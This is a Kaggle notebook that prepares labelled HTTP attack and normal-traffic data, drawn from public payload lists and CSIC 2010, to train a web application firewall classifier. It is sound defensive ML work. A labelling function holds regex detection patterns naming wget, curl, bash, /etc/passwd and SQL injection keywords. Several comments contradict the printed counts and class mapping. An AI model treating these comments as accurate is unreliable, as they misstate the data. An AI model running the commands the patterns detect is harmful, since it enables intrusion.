# Notebook 01 — Data Exploration
Parse, label, and combine all datasets into one unified CSV for feature engineering.

In [24]:
# ── Kaggle environment check ──────────────────────────────────────────────────
# No Drive mount needed on Kaggle — /kaggle/working is the writable session
# directory, defined in the next cell.
#
# REMINDER: enable Internet in Notebook Settings (right panel → Internet → On)
# before running the download cells below — Cell 4 pulls payload lists
# directly from GitHub.
import os
print("Running on Kaggle:", os.path.exists("/kaggle"))


Running on Kaggle: True


In [25]:
%%capture
!pip install scikit-learn xgboost torch onnx onnxruntime \
             skl2onnx mlflow tqdm seaborn scipy pandas openpyxl

In [26]:
import re, os, glob, zipfile, urllib.request
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
from pathlib import Path

# ── Kaggle paths ───────────────────────────────────────────────────────────
# /kaggle/working — writable output for this session (persists in the
#   notebook's Output, and can be turned into a new Kaggle Dataset from
#   the "Save Version" panel once this notebook finishes running).
# /kaggle/input   — read-only, where datasets attached via "Add Data" appear.
RAW_DIR  = Path("/kaggle/working/data/raw")
PROC_DIR = Path("/kaggle/working/data/processed")
RAW_DIR.mkdir(parents=True, exist_ok=True)
PROC_DIR.mkdir(parents=True, exist_ok=True)

print(f"RAW_DIR:  {RAW_DIR}")
print(f"PROC_DIR: {PROC_DIR}")


RAW_DIR:  /kaggle/working/data/raw
PROC_DIR: /kaggle/working/data/processed


In [27]:
# ── Download all GitHub ZIP datasets ─────────────────────────────────────────
# Run this cell once. Safe to re-run — skips if folder already exists.

def get_github(url, dest_dir):
    dest = Path(dest_dir)
    if dest.exists() and any(dest.iterdir()):
        print(f"  already exists: {dest_dir}")
        return
    dest.mkdir(parents=True, exist_ok=True)
    zip_path = "/tmp/dataset.zip"
    print(f"  downloading {url.split('/')[-3]} ...")
    urllib.request.urlretrieve(url, zip_path)
    with zipfile.ZipFile(zip_path, 'r') as z:
        z.extractall(dest)
    print(f"  extracted → {dest_dir}")

# FIX: correct org name is 'payloadbox' not 'payload-box'
# FIX: correct branch is 'master' not 'main'
# FIX: LFI uses the actual LFI list, not PayloadsAllTheThings
# CHANGED: destinations now use RAW_DIR (Kaggle path) instead of hardcoded
#          "../data/raw/..." strings — path only needs to change in one
#          place (Cell 3) going forward.

get_github(
    "https://github.com/Morzeux/HttpParamsDataset/archive/refs/heads/master.zip",
    RAW_DIR / "httpparams"
)
get_github(
    "https://github.com/payload-box/sql-injection-payload-list/archive/master.zip",
    RAW_DIR / "payloadbox_sqli"
)
get_github(
    "https://github.com/payload-box/xss-payload-list/archive/master.zip",
    RAW_DIR / "payloadbox_xss"
)
get_github(
    "https://github.com/payload-box/command-injection-payload-list/archive/master.zip",
    RAW_DIR / "payloadbox_cmdi"
)
get_github(
   "https://github.com/payload-box/directory-payload-list/archive/refs/heads/main.zip",
    RAW_DIR / "payloadbox_lfi"
)
print("All GitHub datasets ready.")


  already exists: /kaggle/working/data/raw/httpparams
  already exists: /kaggle/working/data/raw/payloadbox_sqli
  already exists: /kaggle/working/data/raw/payloadbox_xss
  already exists: /kaggle/working/data/raw/payloadbox_cmdi
  already exists: /kaggle/working/data/raw/payloadbox_lfi
All GitHub datasets ready.


In [28]:
# ── Source Kaggle-hosted datasets ─────────────────────────────────────────────
# Inside a Kaggle Notebook, `kaggle datasets download` works with the
# platform's own built-in credentials — the kaggle.json upload step was
# Colab-specific and has been removed.
#
# CHANGED: CICIDS 2017 download removed. df_cicids_normal was unused
# downstream (see Cell 14, "CICIDS 2017 EXCLUDED") — flagging this removal
# explicitly in case you want it restored for a different reason later.

!kaggle datasets download ispangler/csic-2010-web-application-attacks \
    -p {RAW_DIR}/csic_2010/ --unzip

print("CSIC 2010 downloaded via Kaggle API.")
print()
print("Alternative if the API call above fails (e.g. dataset access changes):")
print("  Notebook menu → Add Data → search 'csic-2010-web-application-attacks'")
print("  → attach it → files appear read-only at:")
print("  /kaggle/input/csic-2010-web-application-attacks/")
print("  (Cell 8's CSIC parser checks /kaggle/input as a fallback location.)")


Dataset URL: https://www.kaggle.com/datasets/ispangler/csic-2010-web-application-attacks
License(s): copyright-authors
100%|██████████████████████████████████████| 2.31M/2.31M [00:00<00:00, 3.80MB/s]

CSIC 2010 downloaded via Kaggle API.

Alternative if the API call above fails (e.g. dataset access changes):
  Notebook menu → Add Data → search 'csic-2010-web-application-attacks'
  → attach it → files appear read-only at:
  /kaggle/input/csic-2010-web-application-attacks/
  (Cell 8's CSIC parser checks /kaggle/input as a fallback location.)


In [29]:
# ── Verify all expected files are present ─────────────────────────────────────
checks = {
    "CSIC 2010 CSV":         RAW_DIR / "csic_2010",
    "HttpParamsDataset":     RAW_DIR / "httpparams",
    "PayloadBox SQLi":       RAW_DIR / "payloadbox_sqli",
    "PayloadBox XSS":        RAW_DIR / "payloadbox_xss",
    "PayloadBox CMDi":       RAW_DIR / "payloadbox_cmdi",
    "PayloadBox LFI":        RAW_DIR / "payloadbox_lfi",
}
print("Dataset availability check:")
for name, path in checks.items():
    if Path(path).exists():
        files_found = list(Path(path).rglob("*.*"))
        print(f"  ✅ {name:<25} {len(files_found)} files")
    else:
        print(f"  ❌ {name:<25} NOT FOUND — run download cells")

Dataset availability check:
  ✅ CSIC 2010 CSV             1 files
  ✅ HttpParamsDataset         5 files
  ✅ PayloadBox SQLi           15 files
  ✅ PayloadBox XSS            21 files
  ✅ PayloadBox CMDi           16 files
  ✅ PayloadBox LFI            24 files


## 1. Parse CSIC 2010

In [30]:
# ── Parse CSIC 2010 from Kaggle CSV ──────────────────────────────────────────
# The Kaggle version (ispangler) produces a CSV with columns:
# Method, Url, Protocol, User-Agent, Pragma, ..., Classification
# Classification: 0 = normal, 1 = anomalous

def parse_csic_csv(csv_path: str) -> pd.DataFrame:
    df = pd.read_csv(csv_path, low_memory=False)
    df.columns = df.columns.str.strip()

    # find the classification column (may vary)
    label_col = None
    for col in df.columns:
        if col.strip().lower() in ["classification", "label", "class"]:
            label_col = col
            break

    if label_col is None:
        print(f"  WARNING: no label column found in {csv_path}. Columns: {list(df.columns)}")
        df["label_id"] = 1   # assume attack if unknown
    else:
        df["label_id"] = pd.to_numeric(df[label_col], errors="coerce").fillna(1).astype(int)

    df["label"] = df["label_id"].map({0: "normal", 1: "attack"})

    # normalise URL and body columns
    url_col  = next((c for c in df.columns if c.lower() in ["url", "uri", "path"]), None)
    body_col = next((c for c in df.columns if c.lower() in ["body", "content", "data"]), None)
    meth_col = next((c for c in df.columns if c.lower() in ["method"]), None)

    df["url"]    = df[url_col].fillna("/")  if url_col  else "/"
    df["body"]   = df[body_col].fillna("")  if body_col else ""
    df["method"] = df[meth_col].fillna("GET") if meth_col else "GET"
    df["source"] = "csic_2010"

    return df[["url", "method", "body", "label", "label_id", "source"]]


# Find the CSIC CSV — check the RAW_DIR download location first, then fall
# back to a possible "Add Data"-attached Kaggle dataset under /kaggle/input
# (see the fallback note in Cell 5).
candidate_roots = [RAW_DIR / "csic_2010", Path("/kaggle/input")]
csic_csvs = []
for root in candidate_roots:
    if root.exists():
        for p in root.rglob("csic_database.csv"):
            # if root != Path("/kaggle/input") or "csic" in str(p).lower():
            csic_csvs.append(p)
csic_csvs = list(dict.fromkeys(csic_csvs))  # de-dupe, preserve order
print(f"CSIC CSV files found: {[str(p) for p in csic_csvs]}")

df_csic_all = pd.DataFrame()
for csv_path in csic_csvs:
    df_tmp = parse_csic_csv(str(csv_path))
    df_csic_all = pd.concat([df_csic_all, df_tmp], ignore_index=True)

print(f"CSIC total: {len(df_csic_all)}")
print(df_csic_all["label"].value_counts())

CSIC CSV files found: ['/kaggle/working/data/raw/csic_2010/csic_database.csv']
CSIC total: 61065
label
normal    36000
attack    25065
Name: count, dtype: int64


## 2. Parse HttpParamsDataset (primary L2B source)

In [31]:
# ── Parse HttpParamsDataset ───────────────────────────────────────────────────
# Structure: single payload_full.csv with columns:
#   payload | length | attack_type | label
#   label:       binary only — "norm" / "anom"
#   attack_type: real per-class label — "norm" / "sqli" / "xss" /
#                "path-traversal" / "cmdi"
# OR separate files: sqli.csv, xss.csv, cmdi.csv per folder
#
# FIX (CRC): classification now reads attack_type, not label. label is
# binary-only ("norm"/"anom") — matching CLASS_MAP_FILENAME keywords against
# it could never succeed, since "anom" contains none of them. Every attack
# row was silently falling through to the other_attack default. Confirmed
# via df_check["attack_type"].value_counts() before writing this fix — see
# conversation history, not guessed at.

CLASS_MAP_FILENAME = {
    "sqli": ("sqli", 1),
    "sql":  ("sqli", 1),
    "xss":  ("xss",  2),
    "lfi":  ("lfi",  3),
    "path": ("lfi",  3),
    "cmdi": ("other_attack", 4),
    "cmd":  ("other_attack", 4),
    "rce":  ("other_attack", 4),
}

# CHANGED: explicit attack_type -> (class_name, class_id) map, used only for
# the payload_full.csv branch (real column, not filename keyword-matching).
CLASS_MAP_ATTACK_TYPE = {
    "sqli":           ("sqli", 1),
    "xss":            ("xss", 2),
    "path-traversal": ("lfi", 3),
    "cmdi":           ("other_attack", 4),   # folded into other_attack per taxonomy lock
}

def parse_httpparams(base_dir: str) -> pd.DataFrame:
    records = []
    base = Path(base_dir)

    # Try payload_full.csv first (newer format)
    full_csv = next(base.rglob("payload_full.csv"), None)
    if full_csv:
        print(f"  Found payload_full.csv: {full_csv}")
        df_raw = pd.read_csv(full_csv, low_memory=False)
        df_raw.columns = df_raw.columns.str.strip().str.lower()

        payload_col = "payload"
        type_col    = "attack_type"

        # CHANGED: fail loud instead of silently defaulting if the expected
        # schema isn't there — this is exactly the class of bug that just
        # cost us a full parse-and-retrain cycle. Don't let it recur quietly.
        if payload_col not in df_raw.columns or type_col not in df_raw.columns:
            raise ValueError(
                f"payload_full.csv schema changed — expected columns "
                f"'{payload_col}' and '{type_col}', got {list(df_raw.columns)}. "
                f"Do not silently fall through to other_attack; fix the "
                f"column mapping above before re-running."
            )

        unmapped = set()
        for _, row in df_raw.iterrows():
            payload   = str(row.get(payload_col, ""))
            atype_raw = str(row.get(type_col, "")).strip().lower()

            if atype_raw == "norm":
                is_normal = True
                cls_name, cls_id = "normal", 0
            else:
                is_normal = False
                if atype_raw in CLASS_MAP_ATTACK_TYPE:
                    cls_name, cls_id = CLASS_MAP_ATTACK_TYPE[atype_raw]
                else:
                    cls_name, cls_id = "other_attack", 4
                    unmapped.add(atype_raw)

            records.append({
                "url":             f"/?q={payload}",
                "method":          "GET",
                "body":            "",
                "label":           "normal" if is_normal else "attack",
                "label_id":        0 if is_normal else 1,
                "attack_class":    cls_name,
                "attack_class_id": cls_id,
                "source":          "httpparams",
            })

        if unmapped:
            print(f"  WARNING: unrecognised attack_type values -> other_attack: {unmapped}")
    else:
        # Fallback: separate CSVs per attack type
        print(f"  No payload_full.csv — scanning for separate attack CSVs...")
        for fpath in base.rglob("*.csv"):
            fname = fpath.stem.lower()
            cls_name, cls_id = "other_attack", 4
            for key, (cn, ci) in CLASS_MAP_FILENAME.items():
                if key in fname:
                    cls_name, cls_id = cn, ci
                    break

            try:
                df_raw = pd.read_csv(fpath, header=None, names=["payload"],
                                     on_bad_lines="skip")
                for payload in df_raw["payload"].dropna():
                    records.append({
                        "url": f"/?q={str(payload)}", "method": "GET", "body": "",
                        "label": "attack", "label_id": 1,
                        "attack_class": cls_name, "attack_class_id": cls_id,
                        "source": "httpparams",
                    })
            except Exception as e:
                print(f"  skip {fpath.name}: {e}")

    df = pd.DataFrame(records)
    if len(df) > 0 and "attack_class" not in df.columns:
        df["attack_class"]    = "other_attack"
        df["attack_class_id"] = 4
    print(f"[httpparams] {len(df)} rows")
    if len(df) > 0:
        print(f"  classes: {df['attack_class'].value_counts().to_dict()}")
    return df


df_httpparams = parse_httpparams(str(RAW_DIR / "httpparams"))

  Found payload_full.csv: /kaggle/working/data/raw/httpparams/HttpParamsDataset-master/payload_full.csv
[httpparams] 31067 rows
  classes: {'normal': 19304, 'sqli': 10852, 'xss': 532, 'lfi': 290, 'other_attack': 89}


## 3. Parse PayloadBox TXT payloads

In [32]:
# ── Parse PayloadBox TXT files ────────────────────────────────────────────────
# One payload per line. Wrapped in minimal HTTP request shell.
#
# NOTE on actual counts observed:
#   payloadbox_sqli: 175 rows  (only 1-2 TXT files found, not all 6,100)
#   payloadbox_xss:  1,356 rows ✅
#   payloadbox_lfi:  42,137 rows (includes many non-LFI paths — filtered below)
#   payloadbox_cmdi: 1,835 rows ✅
#
# LFI is now OVER-represented (42K rows) because the rfi-lfi-payload-list repo
# contains recursive path variants at every depth. We cap it in the balance step.

def parse_payloadbox(txt_dir: str, attack_class: str,
                     attack_class_id: int, method: str = "GET") -> pd.DataFrame:
    records = []
    found_files = list(glob.glob(
        os.path.join(txt_dir, "**", "*.txt"), recursive=True))
    print(f"  [{attack_class}] scanning {len(found_files)} TXT files in {txt_dir}")

    for fpath in found_files:
        try:
            with open(fpath, "r", errors="replace") as f:
                for line in f:
                    payload = line.strip()
                    # skip blank lines, comments, and headers/section titles
                    if not payload:
                        continue
                    if payload.startswith(("#", "//", "<!--", "**", "##")):
                        continue
                    if len(payload) > 2000:   # skip absurdly long lines
                        continue
                    records.append({
                        "url":             f"/?input={payload}",
                        "method":          method,
                        "body":            "",
                        "label":           "attack",
                        "label_id":        1,
                        "attack_class":    attack_class,
                        "attack_class_id": attack_class_id,
                        "source":          "payloadbox",
                    })
        except Exception:
            pass

    df = pd.DataFrame(records)
    print(f"  [{attack_class}] {len(df):,} rows parsed")
    return df


df_sqli_pb = parse_payloadbox(str(RAW_DIR / "payloadbox_sqli"), "sqli", 1)
df_xss_pb  = parse_payloadbox(str(RAW_DIR / "payloadbox_xss"),  "xss",  2)
df_lfi_pb  = parse_payloadbox(str(RAW_DIR / "payloadbox_lfi"),  "lfi",  3)
df_cmdi_pb = parse_payloadbox(str(RAW_DIR / "payloadbox_cmdi"), "other_attack", 4)
# was: parse_payloadbox(..., "cmdi", 4)

# ── Supplement SQLi from HttpParams if payloadbox_sqli is thin ───────────────
# If payloadbox_sqli produced < 1000 rows, the ZIP likely only contained a few
# files. HttpParamsDataset has 10,852 SQLi samples — those feed in via
# df_httpparams already. We just print a warning here so you know.
if len(df_sqli_pb) < 1000:
    print()
    print(f"  ⚠️  payloadbox_sqli only has {len(df_sqli_pb)} rows.")
    print("     The ZIP may contain only a subset of files.")
    print("     SQLi will still be covered by HttpParamsDataset (10,852 rows).")
    print("     If you want more: re-download manually from:")
    print("     https://github.com/payloadbox/sql-injection-payload-list")

  [sqli] scanning 6 TXT files in /kaggle/working/data/raw/payloadbox_sqli
  [sqli] 175 rows parsed
  [xss] scanning 16 TXT files in /kaggle/working/data/raw/payloadbox_xss
  [xss] 1,329 rows parsed
  [lfi] scanning 12 TXT files in /kaggle/working/data/raw/payloadbox_lfi
  [lfi] 3,254 rows parsed
  [other_attack] scanning 11 TXT files in /kaggle/working/data/raw/payloadbox_cmdi
  [other_attack] 1,834 rows parsed

  ⚠️  payloadbox_sqli only has 175 rows.
     The ZIP may contain only a subset of files.
     SQLi will still be covered by HttpParamsDataset (10,852 rows).
     If you want more: re-download manually from:
     https://github.com/payloadbox/sql-injection-payload-list


## 4. CICIDS — excluded (network traffic, not HTTP app traffic)

In [33]:
# ── CICIDS 2017 EXCLUDED ─────────────────────────────────────────────────────
# CICIDS 2017 is a NETWORK-LEVEL traffic dataset (NetFlow features:
# packet length, flow duration, TCP flags, IAT statistics, etc.).
# It has NO raw HTTP URLs, headers, or request bodies.
#
# Our WAF operates at the HTTP APPLICATION layer, not the network layer.
# Including CICIDS caused:
#   - 2,273,097 rows of synthetic "normal" records with url="/" and body=""
#   - 94.3% of the entire dataset becoming one dummy row type
#   - 1703:1 imbalance ratio (normal vs xss)
#
# The CSIC 2010 normal traffic (36,000 real HTTP requests) is the correct
# normal baseline for an application-layer WAF.

df_cicids_normal = None   # explicitly set to None so combine cell skips it
print("[CICIDS] Excluded — using CSIC 2010 HTTP traffic as normal baseline.")
print("  Reason: CICIDS is network-level (NetFlow), not HTTP application traffic.")
print("  CSIC 2010 provides 36,000 real HTTP GET/POST requests as normal data.")

[CICIDS] Excluded — using CSIC 2010 HTTP traffic as normal baseline.
  Reason: CICIDS is network-level (NetFlow), not HTTP application traffic.
  CSIC 2010 provides 36,000 real HTTP GET/POST requests as normal data.


## 5. Assign attack sub-classes to CSIC rows

In [34]:
# ── Assign attack sub-classes to CSIC rows via regex ─────────────────────────
# CSIC only has binary labels (normal/attack).
# We infer SQLi/XSS/LFI/other from payload content.

def assign_attack_class(row):
    if row["label"] == "normal":
        return "normal", 0
    txt = (str(row.get("url", "")) + " " + str(row.get("body", ""))).lower()
    if re.search(r"union.*select|or\s+\d+=\d+|drop\s+table|--|sleep\s*\(|benchmark\s*\(", txt):
        return "sqli", 1
    if re.search(r"<\s*script|onerror\s*=|javascript\s*:|alert\s*\(|svg.*onload", txt):
        return "xss", 2
    if re.search(r"\.\./|\.\.[/\\]|/etc/passwd|boot\.ini|/proc/self", txt):
        return "lfi", 3
    if re.search(r";\s*(ls|cat|id|whoami|wget|curl|bash|sh)|&&|\|\|", txt):
        return "other_attack", 4
    return "other_attack", 4


if len(df_csic_all) > 0:
    labels = df_csic_all.apply(assign_attack_class, axis=1, result_type="expand")
    df_csic_all["attack_class"]    = labels[0]
    df_csic_all["attack_class_id"] = labels[1]
    print("CSIC sub-class breakdown:")
    print(df_csic_all["attack_class"].value_counts())
else:
    df_csic_all["attack_class"]    = "normal"
    df_csic_all["attack_class_id"] = 0

CSIC sub-class breakdown:
attack_class
normal          36000
other_attack    23237
sqli             1828
Name: count, dtype: int64


## 6. Combine all datasets into one df_all

In [35]:
# ── Combine all datasets ──────────────────────────────────────────────────────

SCHEMA = ["url", "method", "body", "label", "label_id",
          "attack_class", "attack_class_id", "source"]

def ensure_schema(df: pd.DataFrame, source_name: str) -> pd.DataFrame:
    if df is None or len(df) == 0:
        return pd.DataFrame(columns=SCHEMA)
    df = df.copy()
    defaults = {
        "url": "/", "method": "GET", "body": "",
        "label": "attack", "label_id": 1,
        "attack_class": "other_attack", "attack_class_id": 5,   # CHANGED: id shifted 4→5
        "source": source_name,
    }
    for col, default in defaults.items():
        if col not in df.columns:
            df[col] = default
    return df[SCHEMA]


# NOTE: df_cicids_normal is None (excluded — see cell 14)
frames = []
for df, name in [
    (df_csic_all,   "csic_2010"),
    (df_httpparams, "httpparams"),
    (df_sqli_pb,    "payloadbox_sqli"),
    (df_xss_pb,     "payloadbox_xss"),
    (df_lfi_pb,     "payloadbox_lfi"),
    (df_cmdi_pb,    "payloadbox_cmdi"),
    # df_cicids_normal excluded — network traffic, not HTTP application traffic
]:
    if df is not None and len(df) > 0:
        frames.append(ensure_schema(df, name))
        print(f"  {name:<20}: {len(df):>8,} rows")

df_all = pd.concat(frames, ignore_index=True)
df_all = df_all.sample(frac=1, random_state=42).reset_index(drop=True)

# ── Imbalance report ──────────────────────────────────────────────────────────
CLASS_ORDER = ["normal", "sqli", "xss", "lfi", "other_attack"]  
counts = df_all["attack_class"].value_counts()
total  = len(df_all)
minority = counts.min()
majority = counts.max()

print(f"\n{'='*58}")
print(f"  CLASS DISTRIBUTION — before balancing")
print(f"{'='*58}")
print(f"  {'Class':<15} {'Count':>8}  {'%':>6}  {'Ratio vs min':>13}")
print(f"  {'-'*55}")
for cls in CLASS_ORDER:
    n   = counts.get(cls, 0)
    pct = n / total * 100
    rat = n / minority if minority > 0 else 0
    flag = ""
    if n < 500:    flag = "  ← ⚠️  CRITICAL"
    elif n < 2000: flag = "  ← ⚠️  LOW"
    print(f"  {cls:<15} {n:>8,}  {pct:>5.1f}%  {rat:>8.1f}x{flag}")
print(f"  {'='*55}")
print(f"  Total: {total:,}")
print(f"  Imbalance ratio (max/min): {majority/minority:.0f}:1")
print(f"{'='*58}")

src_counts = df_all["source"].value_counts()
print(f"\n  Source breakdown:")
for src, n in src_counts.items():
    print(f"    {src:<22}: {n:>8,}")

  csic_2010           :   61,065 rows
  httpparams          :   31,067 rows
  payloadbox_sqli     :      175 rows
  payloadbox_xss      :    1,329 rows
  payloadbox_lfi      :    3,254 rows
  payloadbox_cmdi     :    1,834 rows

  CLASS DISTRIBUTION — before balancing
  Class              Count       %   Ratio vs min
  -------------------------------------------------------
  normal            55,304   56.0%      29.7x
  sqli              12,855   13.0%       6.9x
  xss                1,861    1.9%       1.0x  ← ⚠️  LOW
  lfi                3,544    3.6%       1.9x
  other_attack      25,160   25.5%      13.5x
  Total: 98,724
  Imbalance ratio (max/min): 30:1

  Source breakdown:
    csic_2010             :   61,065
    httpparams            :   31,067
    payloadbox            :    6,592


## 6b. Compute family_id for family-aware grouping

In [36]:
# ── Compute family_id for family-aware train/test splitting ──────────────────
# Groups near-duplicate payload variants — different encodings, different
# LFI traversal depths — into the same "family" so a later train/test split
# never puts variants of the same base attack on both sides. This is the
# leakage risk flagged in review: 50 encoded variants of one SQLi string
# split randomly can put near-identical patterns in both train and test,
# inflating reported accuracy.
#
# Canonicalization (deliberately conservative — does NOT strip digits/
# literals, which would over-merge semantically different payloads):
#   1. URL-decode (a few passes, to catch double-encoding)
#   2. lowercase
#   3. collapse whitespace
#   4. collapse repeated ../ or ..\\ sequences into one marker
#      (targets the 42K-row LFI depth-variant set specifically)
#   5. hash → family_id

import hashlib
import urllib.parse

def canonicalize_for_family(url: str, body: str) -> str:
    text = f"{url or ''} {body or ''}"

    for _ in range(3):
        decoded = urllib.parse.unquote(text)
        if decoded == text:
            break
        text = decoded

    text = text.lower()
    text = re.sub(r"\s+", " ", text).strip()
    text = re.sub(r"(\.\./|\.\.\\)+", "<TRAVERSAL>/", text)

    return text

def compute_family_id(row) -> str:
    canon = canonicalize_for_family(row.get("url", ""), row.get("body", ""))
    return hashlib.md5(canon.encode("utf-8", errors="replace")).hexdigest()[:12]

df_all["family_id"] = df_all.apply(compute_family_id, axis=1)

n_families = df_all["family_id"].nunique()
print(f"Computed family_id for {len(df_all):,} rows -> {n_families:,} unique families")
print(f"  Avg rows per family: {len(df_all)/n_families:.2f}")

fam_sizes = (df_all.groupby(["attack_class", "family_id"])
             .size().reset_index(name="n"))
top_families = fam_sizes.sort_values("n", ascending=False).head(10)
print("\nLargest families (top 10 by row count) -- sanity check that the LFI")
print("depth-variant collapse actually worked:")
print(top_families.to_string(index=False))


Computed family_id for 98,724 rows -> 61,458 unique families
  Avg rows per family: 1.61

Largest families (top 10 by row count) -- sanity check that the LFI
depth-variant collapse actually worked:
attack_class    family_id    n
      normal ada3b41dc095 1000
      normal bfd949d14905 1000
      normal b3e460f1d2bb 1000
      normal 99471e7896e2 1000
      normal e1cc3ad8e90f 1000
      normal cf0808ee0181 1000
      normal 5bbb5081c319 1000
      normal 046b20f3262d 1000
      normal 7243df451f9e 1000
      normal 88a897b8e2a0 1000


## 7. Fix class imbalance

  BALANCING RESULT (family-safe capping)
  Class             Before     After   Families kept         Cap
  ------------------------------------------------------------------
  normal            55,304     5,000           3,940        5000
  sqli              12,855    12,855          12,233    kept all
  xss                1,861     1,861           1,567    kept all
  lfi                3,544     3,000           2,445        3000
  other_attack      25,160     3,003           2,063        3000
  Total:           98,724    25,719
  Imbalance ratio: 30:1  ->  6.9:1

  Class weights (passed to CrossEntropyLoss / XGBoost):
    normal          weight=1.0288  ████████
    sqli            weight=0.4001  ███
    xss             weight=2.7640  ██████████████████████
    lfi             weight=1.7146  █████████████
    other_attack    weight=1.7129  █████████████

  Weights saved -> /kaggle/working/data/processed/class_weights.json
  Load in train.py: json.load(open('data/processed/class_weight




df_all -> balanced dataset (25,719 rows). Ready to save.


In [37]:
# ── Fix Class Imbalance — family-safe capping ─────────────────────────────────
# CHANGED: capping is now done at the FAMILY level, not the row level.
# Random row-capping could still leave a capped class dominated by very few
# actual attack families even though it "looks" like N diverse rows (e.g.
# LFI's 42K rows are mostly traversal-depth variants of a handful of base
# attacks). Capping by family preserves attack diversity within the cap.
#
# Caps below are now approximate ceilings, not exact counts: a class stops
# accepting new families once its running row count reaches the cap, so the
# final count may run slightly over the nominal cap rather than cut a
# family in half.
#
# Cap targets (same intent as before, cmdi now separate from other_attack):
#   normal       -> 5,000
#   sqli         -> keep all
#   xss          -> keep all (smallest class — never cap)
#   lfi          -> 3,000  (was 42K raw — many traversal-depth variants)
#   cmdi         -> keep all (now separated out — previously folded into other_attack)
#   other_attack -> 3,000

import json

CLASS_ORDER = ["normal", "sqli", "xss", "lfi", "other_attack"]
counts_before = df_all["attack_class"].value_counts()

CAPS = {
    "normal":       5000,
    "sqli":         None,
    "xss":          None,
    "lfi":          3000,
    "other_attack": 3000,
}

def cap_by_family(df_cls: pd.DataFrame, cap, seed: int = 42) -> pd.DataFrame:
    if cap is None or len(df_cls) <= cap:
        return df_cls
    rng = np.random.RandomState(seed)
    families = df_cls["family_id"].unique()
    rng.shuffle(families)

    kept_families = []
    running = 0
    for fam in families:
        if running >= cap:
            break
        fam_rows = df_cls[df_cls["family_id"] == fam]
        kept_families.append(fam)
        running += len(fam_rows)

    return df_cls[df_cls["family_id"].isin(kept_families)]

frames_capped = []
for cls in df_all["attack_class"].unique():
    cls_df = df_all[df_all["attack_class"] == cls]
    cap    = CAPS.get(cls, None)
    frames_capped.append(cap_by_family(cls_df, cap))

df_balanced = pd.concat(frames_capped, ignore_index=True)
df_balanced = df_balanced.sample(frac=1, random_state=42).reset_index(drop=True)

counts_after = df_balanced["attack_class"].value_counts()
total_after  = len(df_balanced)

print(f"{'='*70}")
print(f"  BALANCING RESULT (family-safe capping)")
print(f"{'='*70}")
print(f"  {'Class':<15} {'Before':>8}  {'After':>8}  {'Families kept':>14}  {'Cap':>10}")
print(f"  {'-'*66}")
for cls in CLASS_ORDER:
    b = counts_before.get(cls, 0)
    a = counts_after.get(cls, 0)
    fam_kept = df_balanced[df_balanced["attack_class"] == cls]["family_id"].nunique()
    c = str(CAPS.get(cls)) if CAPS.get(cls) else "kept all"
    print(f"  {cls:<15} {b:>8,}  {a:>8,}  {fam_kept:>14,}  {c:>10}")
print(f"  {'='*66}")
print(f"  Total:         {len(df_all):>8,}  {total_after:>8,}")
min_a = counts_after.min()
max_a = counts_after.max()
print(f"  Imbalance ratio: {counts_before.max()/counts_before.min():.0f}:1  ->  {max_a/min_a:.1f}:1")
print(f"{'='*70}")

# ── Compute class weights ─────────────────────────────────────────────────────
n_classes = len(CLASS_ORDER)
class_weights = {}
for cls in CLASS_ORDER:
    n = int(counts_after.get(cls, 1))
    w = total_after / (n_classes * n)
    class_weights[cls] = round(w, 4)

print("\n  Class weights (passed to CrossEntropyLoss / XGBoost):")
for cls in CLASS_ORDER:
    w   = class_weights[cls]
    bar = "█" * min(int(w * 8), 30)
    print(f"    {cls:<15} weight={w:.4f}  {bar}")

weights_path = PROC_DIR / "class_weights.json"
with open(weights_path, "w") as f:
    json.dump({
        "class_order":         CLASS_ORDER,
        "weights_dict":        class_weights,
        "weights_list":        [class_weights[c] for c in CLASS_ORDER],
        "caps_applied":        {k: v for k, v in CAPS.items()},
        "family_safe_capping": True,
        "n_total_before":      int(len(df_all)),
        "n_total_after":       int(total_after),
    }, f, indent=2)
print(f"\n  Weights saved -> {weights_path}")
print("  Load in train.py: json.load(open('data/processed/class_weights.json'))")

# ── Visualise before/after ────────────────────────────────────────────────────
fig, axes = plt.subplots(1, 2, figsize=(14, 4))
colors = ["#5B8DB8", "#E07B5A", "#5BAD8A", "#B85B8A", "#8A5BB8", "#B8A65B"]

for ax, (df_plot, title) in zip(axes, [
    (df_all,      "Before balancing"),
    (df_balanced, "After balancing (family-safe cap)"),
]):
    cnts = df_plot["attack_class"].value_counts().reindex(CLASS_ORDER, fill_value=0)
    bars = ax.bar(cnts.index, cnts.values, color=colors)
    for bar, val in zip(bars, cnts.values):
        ax.text(bar.get_x() + bar.get_width()/2,
                bar.get_height() + max(cnts.values)*0.01,
                f"{val:,}", ha="center", va="bottom", fontsize=8)
    ax.set_title(title)
    ax.set_ylabel("Count")
    ax.tick_params(axis="x", rotation=25)

plt.tight_layout()
plt.savefig(PROC_DIR / "01_class_balance.png", dpi=120)
plt.show()

df_all = df_balanced
print(f"\ndf_all -> balanced dataset ({len(df_all):,} rows). Ready to save.")


## 8. Visualise distributions

